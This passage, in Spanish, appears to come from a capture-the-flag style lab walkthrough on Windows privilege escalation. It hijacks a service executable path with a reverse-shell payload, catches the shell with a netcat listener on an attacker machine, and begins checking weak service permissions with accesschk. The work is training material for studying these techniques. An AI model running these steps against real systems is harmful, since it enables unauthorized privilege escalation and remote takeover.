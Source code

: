 Una vez que la carga útil esté en el servidor, muévala a cualquiera de las ubicaciones donde pueda ocurrir un secuestro. En este caso, moveremos nuestra carga útil a `C:\MyPrograms\Disk.exe`. También otorgaremos a todos permisos completos sobre el archivo para asegurarnos de que el servicio pueda ejecutarlo:

```shell-session
C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
        Successfully processed 1 files.
```

Una vez que se reinicia el servicio, su carga útil debería ejecutarse:

```shell-session
C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
```

Como resultado, obtendrás un shell inverso con privilegios svcusr2:

```shell-session
user@attackerpc$ nc -lvp 4446
Listening on 0.0.0.0 4446
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr2
```

### Insecure Service Permissions

Es posible que aún tenga una pequeña posibilidad de aprovechar un servicio si el DACL ejecutable del servicio está bien configurado y la ruta binaria del servicio está citada correctamente. Si el servicio DACL (no el DACL ejecutable del servicio) le permite modificar la configuración de un servicio, podrá reconfigurar el servicio. Esto le permitirá señalar cualquier ejecutable que necesite y ejecutarlo con cualquier cuenta que prefiera, incluido el propio SISTEMA.

Para verificar un servicio DACL desde la línea de comando, puede usar [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) de la suite Sysinternals:

```shell-session
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```
